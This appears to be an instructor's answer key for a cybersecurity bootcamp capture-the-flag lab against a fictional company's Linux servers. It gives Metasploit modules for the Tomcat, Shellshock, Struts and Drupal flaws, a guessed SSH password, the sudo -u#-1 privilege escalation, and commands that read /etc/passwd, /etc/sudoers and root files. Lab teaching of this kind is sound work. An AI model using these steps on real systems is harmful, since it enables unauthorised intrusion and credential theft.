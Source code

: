 ## Day 2 Solution File: Attacking Rekall's Linux Servers

### Flag Solutions

#### Flag 1: h8s692hskasd
- **Location:** https://centralops.net/co/DomainDossier.aspx
- **Vulnerability:** Open source exposed data
- **Method/Payload to Exploit:** On the Domain Dossier webpage, view the WHOIS data for totalrekall.xyz. The address will show the flag:
  - `Registrant Street: h8s692hskasd Flag1`

#### Flag 2: 34.102.136.180
- **Method/Payload to Exploit:**  Ping totalrekall.xyz
 
#### Flag 3: s7euwehd
- **Location:** `crt.sh`
- **Vulnerability:** Open source exposed data
- **Method/Payload to Exploit:** On `crt.sh`, search for totalrekall.xyz to view the flag:
   - **s7euwehd**.totalrekall.xyz

#### Flag 4: 5
- **Location:** Scan results
- **Method/Payload to Exploit:** Run an Nmap scan for the network (`nmap 192.168.13.0/24`) to determine that there are 5 hosts excluding the host scanning from.

#### Flag 5: 192.168.13.13
- **Location:** Scan results
- **Method/Payload to Exploit:** Run an aggressive Nmap scan: `nmap -A 192.168.13.0/24` 
    -  Analyze the results to see that the host that runs Drupal is 192.168.13.13


#### Flag 6: 97610
- **Location:** Nessus scan results
- **Method/Payload to Exploit:** 
  - Run a Nessus scan for 192.168.13.12
  - One critical vulnerability will appear for Apache Struts. 
  - Click on this critical vulnerability. The id 97610 will display on the top right of this page.

#### Flag 7: 8ks6sbhss
- **Location/Host:** 192.168.13.10
- **Vulnerability:** Apache Tomcat Remote Code Execution Vulnerability (CVE-2017-12617)
- **Method/Payload to Exploit:**  
  - Run MSFconsole.
  - Search for exploits that have Tomcat and JSP.
  - Use the exploit `multi/http/tomcat_jsp_upload_bypass`, and set the option for the RHOST to 192.168.13.10. 
  - After successfully getting a Meterpreter shell, enter "SHELL" to get to the command line.
  - Run the following to get the flag:  `/ cat /root/.flag7.txt`

#### Flag 8: 9dnx5shdf5
- **Location:** 192.168.13.11
- **Vulnerability:** Shellshock
- **Method/Payload to Exploit:**  
  - Run MSFconsole, and search exploits that have Shellshock. 
  - Run MSF (`exploit/multi/http/apache_mod_cgi_bash_env_exec`) and set the following options:   
    - target URI(The vulnerable webpage): /cgi-bin/shockme.cgi
    - RHOST: 192.168.13.11
- To get the flag, run the following from a shell on the exploited machine: `cat /etc/sudoers`

#### Flag 9: wudks8f7sd
- **Location:** 192.168.13.11
- **Method/Payload to Exploit:** On the same machine as Flag 8, run `cat /etc/passwd`


#### Flag 10: wjasdufsdkg
- **Location:** 192.168.13.12
- **Vulnerability:** Struts - CVE-2017-5638
- **Method/Payload to Exploit:**  Determine via the Nessus scan that this host is vulnerable to Struts.
  - After connecting to MSFconsole, search for Struts exploits.
  - Use the following exploit to get a Meterpreter shell: `multi/http/struts2_content_type_ognl`.
      - Set the RHOSTS to 192.168.13.12
  - You may have to manually connect to the session to get the meterpreter shell with: `sessions -i <session number>`
  - Use Meterpreter to download the following file to your Kali machine: `/root/flagisinThisfile.7z`
  - From your Kali machine, unzip the file with the following command: `7z x flagisinThisfile.7z` 
  - Use `cat` with the flag file to view the flag.

#### Flag 11: www-data
- **Location:** 192.168.13.13
- **Vulnerability:** Drupal - CVE-2019-6340
- **Method/Payload to Exploit:** 
  - After connecting to MSFconsole, search for Drupal exploits.
  - Use the following exploit to get a Meterpreter shell MSF: `unix/webapp/drupal_restws_unserialize`
       - Set RHOSTS to 192.168.13.13
  - After getting the Meterpreter shell, run `getuid` to get the username.

#### Flag 12: d7sdfksdf384
- **Location:** 192.168.13.14
- **Vulnerability:** CVE-2019-14287
- **Method/Payload to Exploit:**  
   - When viewing the WHOIS data from Flag 1, notice that the name is: `sshuser Alice`
   - SSH into the server: `ssh alice@192.168.13.14`
   - Guess that the password is: `alice`
   - To conduct the privilege escalation exploit and obtain the flag, run the following: 
       - `sudo -u#-1 cat /root/flag12.txt`

---

© 2022 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.   
